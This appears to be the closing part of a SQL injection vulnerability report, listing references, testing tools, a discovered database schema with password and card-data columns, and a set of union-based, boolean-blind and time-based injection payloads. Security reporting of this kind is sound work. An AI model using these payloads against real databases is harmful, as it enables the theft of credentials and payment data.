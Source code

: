 ### 🔗 Technical References
- [OWASP SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [CWE-89: Improper Neutralization of Special Elements used in an SQL Command](https://cwe.mitre.org/data/definitions/89.html)
- [NIST SP 800-53: Security Controls for Federal Information Systems](https://csrc.nist.gov/publications/detail/sp/800-53/rev-5/final)

### 📖 Database-Specific Resources
- [MySQL Security Best Practices](https://dev.mysql.com/doc/refman/8.0/en/security-guidelines.html)
- [PostgreSQL Security Documentation](https://www.postgresql.org/docs/current/security.html)
- [SQL Server Security Best Practices](https://docs.microsoft.com/en-us/sql/relational-databases/security/security-center-for-sql-server-database-engine-and-azure-sql-database)

### 🛠️ Security Tools
- [SQLMap](http://sqlmap.org/) - Automatic SQL injection testing tool
- [Burp Suite](https://portswigger.net/burp) - Web application security testing
- [OWASP ZAP](https://www.zaproxy.org/) - Free security testing proxy

---

## 📋 Appendix

### 🔧 Tools Used
- **Burp Suite Professional**: Version 2023.x - Manual testing and payload crafting
- **SQLMap**: Version 1.7.x - Automated SQL injection testing
- **Custom Scripts**: Python-based testing scripts for specific payloads

### 📊 Testing Environment
- **Browser**: Chrome 108.0.5359.124
- **Operating System**: Ubuntu 22.04 LTS
- **Testing Date**: [Date of testing]
- **Testing Duration**: 2 hours

### 📝 Additional Technical Details

#### Database Schema Information
```sql
-- Discovered tables
Tables: users, products, orders, payments, admin_users

-- Sensitive columns identified
users: id, username, password, email, phone, address
admin_users: id, username, password_hash, role, last_login
payments: id, user_id, card_number, cvv, expiry_date
```

#### Payload Variations Tested
```sql
-- Union-based payloads
1' UNION SELECT 1,2,3--
1' UNION SELECT username,password,email FROM users--
1' UNION SELECT table_name,column_name,data_type FROM information_schema.columns--

-- Boolean-based blind payloads
1' AND (SELECT COUNT(*) FROM users)>0--
1' AND (SELECT LENGTH(database()))>5--
1' AND (SELECT SUBSTRING(username,1,1) FROM users WHERE id=1)='a'--

-- Time-based blind payloads
1' AND SLEEP(5)--
1' AND IF((SELECT COUNT(*) FROM users)>0,SLEEP(5),0)--
```